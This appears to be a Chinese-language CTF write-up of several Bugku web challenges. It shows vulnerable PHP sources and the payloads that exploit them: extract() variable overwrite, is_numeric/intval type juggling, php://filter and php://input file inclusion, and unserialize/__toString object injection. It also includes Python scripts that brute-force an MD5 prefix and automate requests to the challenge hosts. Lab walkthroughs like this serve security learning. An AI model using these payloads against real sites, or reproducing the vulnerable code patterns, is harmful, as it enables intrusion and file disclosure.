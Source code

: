 #### [web1](http://123.206.31.85:10001/)
```php
<?php
header("Content-type:text/html;charset=utf-8");
error_reporting(0);
include 'flag.php';
$b='ssAEDsssss';
extract($_GET);
if(isset($a)){
	$c=trim(file_get_contents($b));
	if($a==$c){
		echo $myFlag;
	}else{
		echo '继续努力，相信flag离你不远了';
	}
}
?>
```
看到extract就知道是变量覆盖，c经过trim就已经变成空了，所以传个a=空就行了，payload：?a=


#### [流量分析](https://new.bugku.com/upload/流量分析.rar)
打开发现好多telnet流量包，追踪TCP流就直接看到flag了


#### [web11](http://123.206.31.85:3030/)
标签写的robots，于是去看下，发现shell.php，打开是一个计算md5的，写个脚本爆破一下提交就得到flag了
```python
import hashlib

key = '8d71ad'

for i in range(1, 100000000):
    result = hashlib.md5(str(i).encode('utf-8')).hexdigest()
    if result[0:6] == key:
        print(i)
    i += 1
```

#### [web13](http://123.206.31.85:10013/)

F12审查元素，发现Headers里有个Password是base64加密的字符串，拿去解密后发现是个flag，但这貌似是假的，然后将flag里的值提交，返回了 “Can you do it faster? you cost [9874371] msec” ，那这道题和实验吧有道天下武功唯快不破有点像了，代码改下flag就出来了...

```python
import requests
import base64

s = requests.Session()
r = s.post('http://123.206.31.85:10013/index.php')
key = r.headers['Password']
flag = base64.b64decode(key).decode()[5:-1]
# print(flag)
para = {'password': flag}
r = s.post('http://123.206.31.85:10013/index.php', data=para)
print(r.text)
```



#### web20 [http://123.206.31.85:10020/](http://123.206.31.85:10020/)
写脚本跑就是了，和上面那道题差不多，但这道题有点迷，返回的密文居然与之前的密文最后一位有点变化，导致不一样也就出不了flag，但多跑几次就能出了...
```python
import requests
import re

s = requests.Session()
url = 'http://123.206.31.85:10020'
text = s.get(url).text
key = re.findall('[A-Za-z0-9]+', text)[0]
print(text)
print(key)

flag = s.get(url + '?key=' + key).text

print(flag)
```



#### [Web25](http://123.206.31.85:10025/)

鬼知道这是什么，点下载，发现下载失败，链接 http://123.206.31.85:10025/2/ziidan.txt 还404，然后试下把目录2去了，就发现了一些字典：
![](https://i.loli.net/2019/04/27/5cc3f4093abd2.jpg)

还发现了shell.php，把这些字典一个一个提交上去看看，最后一个就出flag了...


#### web3 [http://123.206.31.85:10003](http://123.206.31.85:10003)
![](https://i.loli.net/2019/04/28/5cc4831811be0.png)
上传了个图片发现什么都没有...
![](https://i.loli.net/2019/04/28/5cc483949bf9b.png)
回到主页面改改这里参数试试，改成index
![](https://i.loli.net/2019/04/28/5cc483e911acf.png)
页面正常但没回显，推测是文件包含，于是用伪协议试试：
![](https://i.loli.net/2019/04/28/5cc484ed0f3ff.png)

再base64解密就是flag了...


#### vim编辑器 [web15](http://123.206.31.85:10015/1ndex.php)

审查下元素，发现有个hint

![](https://i.loli.net/2019/05/04/5ccd49aa2d1a3.png)

拿去解密base16、32、64解下来是 `vim~` ，然后拿去百度查查，发现vim备份文件：

![](https://i.loli.net/2019/05/04/5ccd4d19e4193.png)

然后访问 `index.php~` 就得到了它的源代码了：

```php
<?php
header('content-type:text/html;charset=utf-8');
include './flag.php';
error_reporting(0);
if(empty($_GET['id'])){
    header('location:./1ndex.php');
}else{
	$id = $_GET['id'];
	if (!is_numeric($id)) {
		$id = intval($id);
		switch ($id) {
			case $id>=0:
				echo "快出去吧，走错路了～～～<br>";
				echo "这么简单都不会么？";
				break;
			case $id>=10:
				exit($flag);
				break;
			default:
				echo "你走不到这一步的!";
				break;
		}
	}
}

?>
```
传入的id不能是数字或数字字符串，所以传入数字字符串里带字母或其它符号则能让 `is_numeric` 判断为false，而intval则会取整，如果是纯字符串或字符串第一位为字母或符号则会返回0，如果是数字+字母或符号的字符串则会返回第一个字母或符号左侧的数字，所以构造这样的payload就能绕过了：

![](https://i.loli.net/2019/05/04/5ccd5c468a699.png)

![](https://i.loli.net/2019/05/04/5ccd5cb9bafc1.png)


#### [web21](http://123.206.31.85:10021/)

搜了下这貌似是是16年xctf的一道题...

F12能看到一段源码：

```php
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
```
这道题首先要绕过第一个if，这里用 `php://input` 能读到post提交的数据（参考：[file_get_contents("php://input")](https://blog.51cto.com/taoshi/1165499)

然后用php伪协议`php://filter/convert.base64-encode/resource=class.php`来读取 `class.php` 的内容：

![](https://i.loli.net/2019/05/10/5cd53ea643e5e.png)

```php
// class.php
<?php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
?>
```

还有 `index.php` ：

![](https://i.loli.net/2019/05/10/5cd53f11730e1.png)

```php
// index.php
<?php
error_reporting(E_ALL & ~E_NOTICE);
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    if(preg_match("/f1a9/",$file)){
        exit();
    }else{
        include($file); //class.php
        $pass = unserialize($pass);
        echo $pass;
    }
}else{
    echo "you are not admin ! ";
}
 
?>
```

这里就能看出是要通过反序列化`$pass`来得到flag，而flag在`f1a9.php`文件里，正则匹配在这里会把它过滤了，所以没法直接读，而从`class.php`中可以知道`__toString()`这个魔法函数可以读取文件内容，这个函数会在输出对象时自动被调用，所以就可以构造序列化对象了：

![](https://i.loli.net/2019/05/10/5cd542bb03d4a.png)

可以看到在输出经过反序列化后的对象（也就是相当于直接输出原对象）时`__toString()`这个函数就被调用了，所以传入构造的序列化对象就得到flag了：

![](https://i.loli.net/2019/05/10/5cd552b45e5ac.png)










